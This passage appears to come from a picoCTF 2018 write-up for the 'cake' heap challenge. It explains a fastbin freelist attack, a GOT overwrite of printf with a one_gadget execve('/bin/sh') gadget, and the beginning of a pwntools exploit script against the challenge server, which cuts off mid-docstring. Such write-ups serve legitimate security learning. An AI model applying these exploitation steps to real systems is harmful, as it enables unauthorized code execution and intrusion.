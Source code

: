 ```fgets_eat(shop->counter[0]->name, 8);``` to overwrite ```counter[0]``` with our target address, then ```shop->counter[0]->price = get();``` gives us arbitrary write. 
* counter\[0]->name must point to counter+0

Ok one problem. Our fastbin attack lets us overwrite the first counter index, but for our idea to work we have to set it to
NULL, then get malloc to return the counter. Given that the make() function uses up the first space that is open, during
the course of our fastbin attack, counter\[0] will always be used. Are we out of luck? 

Not quite, we just need to get shop+0x8 returned by malloc twice in a row. To do this, we can set the next pointer in our original forged chunk, back to the forged chunk. Then we can do another fastbin attack, get shop+0x8 overwritten setting shop->counter\[0] to NULL, and our next call to malloc will return shop+0x8 again, with shop->counter\[0] as NULL, and we can finish our attack.

What target to overwrite? Let's just do printf. What to overwrite it with? Well we could do system, but we don't have much control over any printf arguments. However, most libc versions have gadgets that directly call execve on "/bin/sh"! There is this great tool [one_gadget](https://github.com/david942j/one_gadget) that can find these gadgets. And we will use that.

Putting it all together:
```python
#!/bin/python2
from pwn import *
import re

context.terminal = ["termite", "-e"]
cidx = 0

def alloc(p, name, price):
    p.sendline("M")
    p.sendlineafter("Name>", name)
    p.sendlineafter("Price>", str(price))
    global cidx
    cidx = cidx + 1
    return cidx - 1

def free(p, i):
    p.sendline("S")
    p.sendlineafter("This customer looks really hungry. Which cake would you like to give them?", str(i))
    p.recvuntil("The customer looks really happy with !")

def leak(p, i):
    p.clean()
    p.sendline("I")
    p.sendlineafter("Which one?", str(i))
    leak = p.recvline_contains("is being sold for")
    leak = leak.split('$')[-1]
    return int(leak)

def break_heap():
    global cidx
    p = remote('2018shell2.picoctf.com', 42542)
    #p = process(['/home/mithreindeir/picoctf/ld-linux-x86-64.so.2', '/home/mithreindeir/picoctf/cake'], setuid=False, env={"LD_PRELOAD":"./libc.so.6"})
    '''
        Fastbin freelist attack to control the counter array,
        change pointer in counter array to @plt function, leak libc
        overwrite entry in counter array during buffer write, then the 2nd time its
        dereferenced in same function it will be pointing at a got entry, and can be
        overwritten with a call to gets

        reqs:
        make() with idx = 0
```